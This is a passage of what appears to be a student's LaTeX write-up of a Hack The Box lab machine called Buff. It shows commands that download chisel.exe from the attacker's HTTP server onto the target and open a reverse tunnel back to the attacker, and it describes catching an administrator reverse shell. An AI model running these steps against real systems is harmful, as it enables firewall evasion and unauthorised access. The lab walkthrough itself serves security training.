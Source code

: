 \documentclass[../main.tex]{subfiles}
\begin{document}
Then I came across chisel. Chisel is a TCP port forwarding tool is mainly useful for passing through firewalls and it can be used to provide a secure endpoint into your network.

Commands:
\begin{lstlisting}
sudo python3 -m http.server 80
curl http://10.10.14.71/chisel.exe -o chisel.exe
\end{lstlisting}

In order for this to work, we are going to copy "chisel.exe" to the Buff machine as we did with the netcat. (see the image of netcat)

Commands:
\begin{lstlisting}
chisel server --port 8081 --reverse //local machine
chisel.exe client 10.10.14.49:8081 R:8888:127.0.0.1:8888 //target machine
\end{lstlisting}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_21_Boyan.PNG}
\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_22_Boyan.PNG}

Once we have done this we need to start up the chisel server on our local machine. Then the target machine should be able to connect to the chisel server as you see on the images above. 

Finally, we will need to set up a reverse shell which will give us access to the administrator shell. This is done by listening on port 53 (TCP) which will pick up the reverse shell. Also, we would have to run the script so that it could let us connect to the reverse shell. Here I had problems. It did nothing. After searching through the internet I found out that I had to replace my payload to the correct data or payload that had to be sent because it's not the same as the data or payload that I have downloaded in order to make a connection.
\end{document}
